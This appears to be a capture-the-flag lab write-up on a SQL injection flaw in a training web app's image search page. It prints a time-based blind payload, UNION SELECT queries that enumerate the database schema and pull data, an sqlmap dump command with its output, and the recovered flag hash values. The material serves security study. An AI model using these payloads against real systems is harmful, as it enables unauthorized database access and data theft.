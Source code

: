 [README.md](../../../README.md)
# SQL Injection /?page=searchimg

## Wapiti Report
Blind SQL vulnerability via injection in the parameter id
`GET /?page=searchimg&id=sleep%287%29%231&Submit=Submit HTTP/1.1`
Host: 10.13.200.53
Referer: http://10.13.200.53/?page=searchimg
curl "http://10.13.200.53/?page=searchimg&id=sleep%287%29%231&Submit=Submit" -e "http://10.13.200.53/?page=searchimg"


## Exploit
**Database name:**
```
ID: 0 UNION SELECT 1,database() 
Title: Member_images
Url : 1
```

**Content:**
```
1 UNION select table_name, column_name FROM information_schema.columns
list_images
- id
- url
- title
- comment
```

**By searching in the databse columns we can find:**
```
ID: 1 UNION select url, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : borntosec.ddns.net/images.png
```

[SHA-256 - Password SHA256 Hash Decryption - Online Decoder/Encoder](https://www.dcode.fr/sha256-hash)
*MD5 decrypt:* `albatroz`
*SHA256 encrypt:* `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

### SQLmap tool
`sqlmap -u "http://x.x.x.x/index.php?page=searchimg&id=1&Submit=Submit#" --dump -T list_images -D Member_images`
```
Database: Member_images
Table: list_images
[5 entries]
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | url                                      | title     | comment
                                                                 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | https://fr.wikipedia.org/wiki/Programme_ | Nsa       | An image about the NSA !
                                                                 |
| 2  | https://fr.wikipedia.org/wiki/Fichier:42 | 42 !      | There is a number..
                                                                 |
| 3  | https://fr.wikipedia.org/wiki/Logo_de_Go | Google    | Google it !
                                                                 |
| 4  | https://en.wikipedia.org/wiki/Earth#/med | Earth     | Earth!
                                                                 |
| 5  | borntosec.ddns.net/images.png            | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |
+----+------------------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
```

## Prevention 
See: [SQL Injection Prevention](../../sql_injection_member/Resources/sql_injection_member.md#prevention)
